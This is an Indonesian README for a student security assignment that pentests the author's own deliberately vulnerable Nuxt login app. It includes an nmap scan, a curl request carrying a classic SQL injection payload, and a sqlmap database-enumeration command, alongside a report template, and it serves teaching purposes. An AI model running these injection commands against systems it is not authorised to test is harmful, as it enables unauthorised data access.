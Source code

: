 # 🔐 Tugas Eksplorasi Keamanan Aplikasi Hackable Nuxt

## 📌 Deskripsi
Tugas ini bertujuan untuk mengeksplorasi keamanan aplikasi web berbasis Nuxt dengan pendekatan pentesting menggunakan tools dasar seperti `Nmap`, `curl`, `SQLMap`, dan analisis kode sumber. Pengujian dilakukan pada aplikasi milik sendiri yang telah dideploy di Vercel dan memiliki repository terbuka di GitHub.

- 🌐 Target URL: [https://hackable-pentest.vercel.app](https://hackable-pentest.vercel.app)
- 📆 Repository: [Hackable-Pentest GitHub](https://github.com/Muhammad-Ikhwan-Fathulloh/Hackable-Pentest)

---

## 🧪 Langkah Pengujian

### 1. 🔍 Port Scanning menggunakan Nmap
```bash
nmap -p 3000,3306 hackable-pentest.vercel.app
```
**Tujuan**: Mengetahui port yang terbuka untuk mendeteksi layanan berisiko seperti database.

---

### 2. 🧨 SQL Injection Manual via cURL
```bash
curl -X POST https://hackable-pentest.vercel.app/api/login \
-d "username=admin' -- -&password=test"
```
**Tujuan**: Menguji endpoint login apakah rentan terhadap SQL Injection klasik.

---

### 3. 🤖 SQLMap untuk SQL Injection Otomatis
```bash
sqlmap -u "https://hackable-pentest.vercel.app/api/login" \
--data="username=admin&password=test" --dbs --batch
```
**Tujuan**: Mengekstrak nama database dan struktur data secara otomatis.

---

### 4. 🧠 Analisis Source Code Backend
```bash
git clone https://github.com/Muhammad-Ikhwan-Fathulloh/Hackable-Pentest
cd Hackable-Pentest
```
- Periksa file API `/api/login.js`
- Cek query SQL langsung (`raw`) yang rentan terhadap injection
- Validasi input user

---

## 📄 Format Laporan 

- Link Docs: https://docs.google.com/document/d/1IdDiTnkZXfCdaSkzwwehaL7J7tmqYKuIYuK7xl6wIBg/edit?usp=sharing

**Judul:** Laporan Uji Keamanan Aplikasi Hackable Nuxt  
**Nama:** [Nama Mahasiswa]  
**NIM:** [Nomor Induk Mahasiswa]  
**Kelas:** [Nama Kelas / Prodi]

| No | Uji                              | Tools         | Hasil Singkat                                                  | Screenshot          |
|----|----------------------------------|---------------|----------------------------------------------------------------|---------------------|
| 1  | Port Scanning                    | Nmap          | [hasil: port tertutup/terbuka]                                 | [lampiran img]      |
| 2  | Manual SQL Injection             | curl          | [hasil: login berhasil/gagal, error code, respon JSON]         | [lampiran img]      |
| 3  | SQL Injection Automation         | SQLMap        | [hasil: DB ditemukan / tidak]                                  | [lampiran img]      |
| 4  | Review Kode Login                | Source Code   | [query raw SQL ditemukan, sanitasi input?]                     | [lampiran potongan] |

---

## ✅ Kesimpulan
Tuliskan temuan utama dan saran perbaikan:
- Potensi celah SQL Injection ditemukan/tidak
- Pentingnya validasi dan parameterized query
- Saran perbaikan untuk keamanan endpoint login

---

## ⚠️ Disclaimer
> Seluruh pengujian dilakukan hanya pada aplikasi **yang dimiliki dan dikuasai sendiri**. Melakukan pengujian pada sistem publik tanpa izin merupakan tindakan ilegal dan tidak etis.

---

## 📌 Lisensi
MIT License - For Educational and Ethical Hacking Purposes Only.
